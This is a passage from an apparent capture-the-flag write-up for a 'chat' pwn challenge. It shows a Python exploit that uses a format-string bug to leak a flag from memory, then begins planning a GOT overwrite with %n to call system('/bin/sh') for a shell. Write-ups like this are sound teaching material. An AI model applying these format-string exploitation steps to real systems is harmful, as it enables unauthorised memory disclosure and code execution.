 ```python
    # put the flag address on the stack
    # note that we add quite some padding in order
    # to not overwrite the address with our next call
    con.recvuntil(nick + ': ')
    payload = struct.pack('<Q', flag_addr)
    con.send('\\' + 7*'X' + 8*'X')
    con.sendline(payload)
    con.recvline()

    # step 4
    # send junk message to put flag on the stack again
    con.recvuntil(nick + ': ')
    con.sendline('JUNK')
    con.recvline()

    # step 5
    # read from the address we put on the stack before
    con.recvuntil(nick + ': ')
    con.sendline('\\%16$s')
    print(con.recvline())  # prints flag along some trash

    # END EXPLOIT

    # quit
    con.sendline('\\q')
    con.sendline('3')

if __name__ == '__main__':
    main()
```

<a name="chat4"></a>

## chat IV

The final pwn challenge: Exploit the chat program further to gain a shell.

Naturally one would think that we already have all the pieces we need:
We can read any memory and using the `%n` formatter we can also write any memory.

My first idea was to overwrite some addresses in the .got.plt section in order to return to libc and call f.e. `system('/bin/sh')`.
So let's make a plan on how to accomplish this:

In order overwrite this section we first have to know where it is located in memory. After that we need to know the address of any function in libc because we need to calculate the position of `__libc_system` (remember the random memory layout, only relative positions are constant). We then have to write the address of our call to a method call we can easily control. Finally we have to call the method.

Getting the address of the .got.plt section in memory is quite easy: We can use the same trick we used earlier, this time however instead of guessing the stack pointer, we want to guess the instruction pointer.
